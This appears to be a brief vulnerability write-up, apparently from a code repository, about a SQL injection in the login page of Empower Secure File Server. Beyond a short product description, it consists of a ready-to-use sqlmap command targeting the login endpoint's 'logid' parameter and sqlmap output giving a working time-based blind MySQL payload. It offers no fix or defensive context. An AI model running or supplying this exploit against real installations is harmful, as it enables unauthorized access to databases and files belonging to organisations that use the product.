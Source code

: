 Empower SFS Sql Injection

https://www.mocomsys.com/mpower-sfs

Empower Secure File Server is a network-based secure file management solution that can use central storage to store/view/edit documents or files, and share or collaborate with multiple users. You can easily connect in various network environments through the web version and dedicated connectors.
## sqlmap:
```
sqlmap -u "url/mpowerweb_eng/login/log_check.php?mode=login" --data="logid=admin&pwd=jgCeiwZXnWM7LBm3jZU%3D" -p "logid"
```
```
Parameter: logid (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind (query SLEEP)
    Payload: logid=admin' OR (SELECT 9604 FROM (SELECT(SLEEP(5)))EDTP) AND 'nibW'='nibW&pwd=jgCeiwZXnWM7LBm3jZU=
```
